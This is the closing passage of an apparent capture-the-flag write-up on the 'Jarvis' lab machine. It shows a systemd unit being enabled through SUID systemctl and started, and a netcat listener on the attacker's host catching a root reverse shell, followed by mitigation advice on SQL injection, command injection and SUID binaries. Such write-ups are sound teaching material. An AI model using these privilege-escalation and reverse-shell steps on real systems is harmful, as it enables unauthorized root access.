 ```bash
bash-4.4$ /bin/systemctl enable /home/pepper/root.service 
Created symlink /etc/systemd/system/multi-user.target.wants/root.service -> /home/pepper/root.service.
Created symlink /etc/systemd/system/root.service -> /home/pepper/root.service.
```

After setting up the listener, let's start the service with the command:

```shell
/bin/systemctl start root
```

If we got to our listener, we find the root shell

```bash
$ nc -lvnp 9002                                                                                                                                    130 ⨯
listening on [any] 9002 ...
connect to [10.10.17.90] from (UNKNOWN) [10.10.10.143] 37242
bash: cannot set terminal process group (32856): Inappropriate ioctl for device
bash: no job control in this shell
root@jarvis:/# id
id
uid=0(root) gid=0(root) groups=0(root)  
```

## **Prevention and Mitigation**

### SQL injection

The website should use a solid input validation and parameterized queries to seperate user input from the query structure.

### OS Command injection

The python script should use proper input validation, and it's better to use libraries to carry out actions instead of calling OS commands directly

### SUID

There are some linux commands that should not have the SUID because that leads to privileges escalation, `systemctl` is one of them, for a full list check [GTFOBins](https://gtfobins.github.io/)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).